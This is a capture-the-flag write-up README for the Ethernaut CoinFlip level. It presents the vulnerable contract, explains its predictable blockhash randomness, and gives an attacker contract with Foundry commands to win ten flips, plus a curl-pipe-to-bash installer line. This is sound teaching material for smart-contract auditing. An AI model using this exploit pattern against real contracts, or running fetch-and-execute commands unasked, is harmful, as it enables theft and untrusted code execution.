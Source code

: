 # Ethernaut Level: CoinFlip - Smart Contract Auditing Journey

## Introduction
Hello! In this repository, I've solved the **CoinFlip** level as part of my Ethernaut challenges. I'm learning smart contract auditing by solving one level per day, and this folder (`levels/coinflip/`) contains everything related to it.

**Goal:** Achieve 10 consecutive coin flip wins to set the `consecutiveWins` counter to 10.  
**Tools:** Foundry (for scripting and testing), Sepolia testnet.  
**Solved Date:** October 17, 2025 (Day 4).  
**Success:** Verified on the Ethernaut site!

## Contract Overview
The contract is a simple game: You guess `true` (heads) or `false` (tails) in the `flip(bool _guess)` function. Randomness is generated using `blockhash(block.number - 1)`, divided by a large `FACTOR` to get 0 or 1. Correct guess increments `consecutiveWins`; incorrect resets it. It prevents repeats in the same block via `lastHash` check.

**Key Code Snippet (from src/CoinFlip/CoinFlip.sol):**
```solidity
contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        if (lastHash == blockValue) { revert(); }
        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        
        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

## Vulnerability Analysis
**Main Issue: Predictable Randomness**  
- `blockhash(block.number - 1)` fetches the previous block's hash, which is already public and known when the transaction is submitted. Thus, it's **not random**—an attacker can pre-compute it!  
- **Security Impact:** Attacker can always guess correctly, breaking game fairness. This is a classic "weak randomness" vulnerability in auditing.  
- **Audit Tip:** Avoid on-chain sources like blockhash, timestamp, or msg.sender for randomness—they're miner-manipulable. Use Chainlink VRF (Verifiable Random Function) instead.

**Example:** Assume block N-1 hash = 0x123abc.... Then `coinFlip = hash / FACTOR = 1`, so guess `true`. Attacker replicates this logic in their code!

## Solution Steps
The attack: Create a `Player` contract that computes the exact guess in its constructor using the target's logic and calls `flip()`. Each deployment triggers a win in a new block (due to lastHash check). Run the script 10 times for consecutive wins.

1. **Setup:** Create Foundry project, set target instance address in script.
2. **Run Attack:** `forge script script/CoinFlipSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast` (repeat 10 times, waiting ~10s between for block confirmation).
3. **Verify:** Check `consecutiveWins()` = 10, submit on Ethernaut site.

**Key Attack Code Snippet (from src/CoinFlip/Player.sol):**
```solidity
contract Player {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(CoinFlip _coinFlip) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        _coinFlip.flip(side);  // Always correct guess!
    }
}
```

## Test and Output
- **Local Test:** Run `anvil` and `forge test`—simulates wins incrementing per deployment.
- **Testnet Output Example:** Console log: `consecutiveWins: 1` (first run), then 2, ..., 10.

## Key Learnings
- **Auditing Skill:** In code reviews, scrutinize randomness sources—avoid predictable on-chain ones.
- **EVM Concept:** `blockhash()` is only valid for the last 256 blocks and is predictable.
- **Prevention:** Use off-chain oracles like Chainlink for randomness. Combining multiple sources with XOR works but isn't fully secure.
- **Next Step:** Modify the script to automate 10 runs in a loop (locally).

## Installation & Run
1. Install Foundry: `curl -L https://foundry.paradigm.xyz | bash`.
2. `cd levels/coinflip`.
3. Set `.env`: `PRIVATE_KEY=your_key` and `SEPOLIA_RPC_URL=your_rpc`.
4. Run script: `forge script script/CoinFlipSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast -vvvv`.

If you have questions, comment on the issue or mention me on X (@0xZHD_X)! 
Next level: `Telephone`. 🚀

---

- **License:** MIT  
- **Author:** [0xZHD] - Smart Contract Auditor Learner  
- **X:** [Zahedul I Sadik](@0xZHD_X)  
- **References:** [Ethernaut Docs](https://ethernaut.openzeppelin.com/)